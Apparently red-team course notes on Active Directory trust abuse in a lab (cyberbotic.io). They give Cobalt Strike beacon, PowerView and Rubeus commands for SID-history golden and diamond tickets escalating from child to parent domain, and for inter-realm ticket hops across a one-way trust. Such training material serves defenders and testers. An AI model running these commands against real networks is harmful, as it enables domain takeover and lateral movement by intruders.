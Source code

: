 # Forest and Domain Trusts

A trust relationship enables users in one domain to authenticate and access resources in another domain, by allowing authentication traffic to flow between them using referrals. When a user requests access to a resource outside of the domain, their KDC will return a referral ticket pointing to the KDC of the target domain. The user's TGT is encrypted using an inter-realm trust key (rather than the local krbtgt), often called an inter-realm TGT. The foreign domain decrypts this ticket, recovers the user's TGT and decides whether they should be granted access. Trusts can be:

* **One-way** allows principals in the trusted domain to access resources in the trusting domain, but not vice versa.
* **Two-way** allows users in each domain to access resources in the other.
* **Transitive** is a trust that can be chained, e.g. (domain) A trusts B and B trusts C, then A trusts C implicitly.
* **Intransitive** is trust is not implied.

The direction of trust is the opposite to the direction of access.

## Parent/Child

When a child domain is added to a forest, it automatically creates a transitive, two-way trust with its parent. (In the lab: dev.cyberbotic.io is a child domain of cyberbotic.io.)

    beacon> getuid
    [*] You are DEV\bfarmer
    beacon> powershell Get-DomainTrust
    SourceName      : dev.cyberbotic.io    // current domain
    TargetName      : cyberbotic.io        // foreign domain
    TrustDirection  : Bidirectional

If we have Domain Admin in the child, we can also gain Domain Admin privileges in the parent using a TGT with the SID History attribute (supports migrations, moving users between domains). To preserve access to resources in the "old" domain, the user's previous SID would be added to their SID History. When creating such a ticket, the SID of a privileged group (EAs, DAs, etc) in the parent domain can be added that will grant access to all resources in the parent. This can be achieved using either a Golden or Diamond Ticket:

### Golden Ticket

The only new info required from before is the SID of a target group in the parent domain:

    beacon> powershell Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
    objectsid                                   
    S-1-5-21-2594061375-675613155-814674916-512
    beacon> powershell Get-DomainController -Domain cyberbotic.io | select Name
    Name              
    dc-1.cyberbotic.io

    PS C:\Users\Attacker> Rubeus.exe golden /aes256:51d7f... /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-... /sids:S-1-5-... /nowrap

Then import it into a logon session and use it to access the parent DC:

    beacon> run klist
    beacon> ls \\dc-1.cyberbotic.io\c$

### Diamond Ticket

The Rubeus diamond command also has a /sids parameter, with which we can supply the extra SIDs we want in our ticket.

    beacon> execute-assembly Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-... /krbkey:51d7f... /nowrap

If dev.cyberbotic.io also had a child (e.g. test.dev.cyberbotic.io), then a DA in TEST would be able to use their krbtgt to hop to DA/EA in cyberbotic.io instantly due to transitive trust.

Other means do not require DA in the child. kerberoast and ASREProast across domain trusts, which may lead to privileged credential disclosure. In the lab, principals in CYBER can be granted access to resources in DEV, there may be instances where they are accessing machines we have compromised. If they interact with a machine with unconstrained delegation, we can capture their TGTs. If they're on a machine interactively, such as RDP, we can impersonate them just like any other user.

## One-Way Inbound

In lab: dev.cyberbotic.io also has a one-way inbound trust with dev-studio.com:

    beacon> powershell Get-DomainTrust
    SourceName      : dev.cyberbotic.io
    TargetName      : dev-studio.com
    TrustDirection  : Inbound

Because the trust is inbound from attacker perspective, it means that principals in our domain can be granted access to resources in the foreign domain. We can enumerate the foreign domain across the trust:

    beacon> powershell Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName
    dnshostname      
    dc.dev-studio.com

Get-DomainForeignGroupMember will enumerate any groups that contain users outside of its domain and return its members:

    beacon> powershell Get-DomainForeignGroupMember -Domain dev-studio.com

Output shows a member of the domain's built-in Administrators group is not part of dev-studio.com. The MemberName field contains a SID that can be resolved in our current domain:

    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120
    DEV\Studio Admins

This means that members of DEV\Studio Admins are also members of the built-in Admin group of dev-studio.com and therefore inherit LA to dc.dev-studio.com.

To hop this trust, need to impersonate a member of this Studio Admins domain group:

    beacon> powershell Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
    MemberName
    nlamb

To hop a domain trust using Kerberos, get an inter-realm key. 

1: Obtain a TGT for the target user (using asktgt with their AES256 hash):

    beacon> execute-assembly Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:a779f... /nowrap

2: Use the TGT to request a referral ticket from the current domain to the target domain:

    beacon> execute-assembly Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj... /nowrap

(this inter-realm ticket is an rc4_hmac though our TGT was aes256_cts_hmac_sha1; default configuration unless AES has been specifically configured on the trust, so not necessarily bad OPSEC.)

3: Use this inter-realm ticket to request TGS's in the target domain; requesting a ticket for CIFS:

    beacon> execute-assembly Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz... /nowrap
    beacon> run klist
    beacon> ls \\dc.dev-studio.com\c$

## One-Way Outbound

Remember that if Domain A trusts Domain B, users in Domain B can access resources in Domain A; but users in Domain A should not be able to access resources in Domain B.  If we're in Domain A, then it's by design that we should not be able to access Domain B.  An outbound trust exists between cyberbotic.io and msp.org.  The direction of trust is such that cyberbotic.io trusts msp.org (so users of msp.org can access resources in cyberbotic.io).
